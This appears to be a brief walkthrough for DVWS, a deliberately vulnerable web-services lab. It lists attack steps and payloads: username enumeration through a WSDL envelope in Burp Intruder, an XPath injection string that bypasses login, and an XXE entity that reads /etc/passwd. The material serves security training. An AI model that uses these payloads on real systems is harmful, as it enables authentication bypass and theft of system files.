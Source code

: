 
### WSDL Scanning 
* Load the check_user_information envelope into Intruder
* select username space 
* add username lists to payload



### XPATH Injection
URL: /dvws/vulnerabilities/xpath/xpath.php 
* username: foo' or 1=1 or 'a'='a 
* password: bar


### XXE 2
payload

``` 
<!DOCTYPE foo [<!ENTITY xxe2q1pa SYSTEM "file:///etc/passwd"> ]><uservalue>
<value>DVWS&xxe2q1pa;</value>
</uservalue>
```
